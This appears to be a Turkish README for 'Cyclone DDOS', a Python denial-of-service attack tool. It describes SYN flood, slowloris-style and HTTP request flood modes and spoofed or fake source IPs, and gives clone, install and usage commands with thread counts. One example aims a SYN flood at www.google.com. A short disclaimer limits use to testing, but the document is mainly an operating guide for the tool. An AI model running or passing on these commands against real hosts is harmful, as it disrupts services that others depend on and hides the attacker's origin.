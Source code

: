 
# Cyclone DDOS

Cyclone DDOS, Python dilinde yazılmış bir DDoS (Distributed Denial of Service) saldırı aracıdır. Bu araç, hedef sunucularda yük oluşturmak için kullanılabilir. Kullanıcılar, farklı saldırı yöntemlerini (SynFlood, Pyslow, Request) seçebilir ve hedefinize çeşitli ayarlarla saldırabilirsiniz.

> **Uyarı:** Bu script sadece test ve eğitim amaçlı kullanılmalıdır. İzin almadan başkalarının sistemlerine saldırmak yasa dışıdır ve ciddi hukuki sonuçlar doğurabilir.

## Özellikler

- **Synflood Saldırısı**: Hedefe TCP SYN paketleri göndererek sunucu kaynaklarını tüketir.
- **Pyslow Saldırısı**: HTTP isteği göndererek sunucuyu yavaşlatır.
- **Request Saldırısı**: Hedefe yoğun HTTP istekleri gönderir.
- **Fake IP Kullanımı**: Sahte IP adresi oluşturabilir.
- **Açık Kaynak**: Proje GitHub üzerinden erişilebilir ve katkıda bulunulabilir.

## Gereksinimler

Cyclone DDOS, aşağıdaki Python kütüphanelerini gerektirir:

- `requests`
- `colorama`
- `termcolor`

Kütüphaneler, script çalıştırılmadan önce otomatik olarak yüklenecektir, ancak yükleme işlemi yapılmazsa, şu komutları kullanabilirsiniz:

### Linux (POSIX):
```bash
sudo pip install colorama termcolor requests
```

### Windows:
```bash
pip install colorama requests termcolor
```

## Kurulum

1. GitHub reposunu klonlayın veya dosyaları indirerek çalıştırmak için uygun bir dizine yerleştirin.

```bash
git clone https://github.com/mfurkanyazici/cycloneddos.git
cd cycloneddos
```

2. Gerekli bağımlılıkları yükleyin (yukarıdaki gereksinimlere bakın).

3. Scripti çalıştırın.

## Kullanım

Cyclone DDOS, komut satırı üzerinden çalıştırılabilir. İşte temel kullanım örnekleri:

### 1. Pyslow Saldırısı:
```bash
python cyclone.py -d www.example.com -p 80 -T 2000 -Pyslow
```

### 2. Request Saldırısı:
```bash
python cyclone.py -d www.domain.com -s 100 -Request
```

### 3. Synflood Saldırısı:
```bash
python cyclone.py -d www.google.com -Synflood -T 5000 -t 10
```

## Komut Satırı Seçenekleri

```bash
usage: cyclone.py -d [target] -p [port] -T [number threads]

optional arguments:
-h, --help       Show this help message and exit
-v, --version    Show program's version number and exit

options:
-d <ip|domain>   Specify your target (IP address or domain name)
-t <float>       Set timeout for socket (default: 5.0)
-T <int>         Set number of threads for the attack (default: 1000)
-p <int>         Specify the target port (default: 80) |Only required for Pyslow attack|
-s <int>         Set sleep time for reconnection (default: 100)
-i <ip address>  Specify spoofed IP address unless using fake IP
-Request         Enable request attack
-Synflood        Enable Synflood attack
-Pyslow          Enable Pyslow attack
--fakeip         Option to generate fake IP if no spoofed IP is specified
```

## Katkıda Bulunma

Author: mehmetfurkanyazici                                               
Github: http://github.com/mehmetfurkanyazici/cycloneddos

## Yazarlar

- **MeFu Security Team**

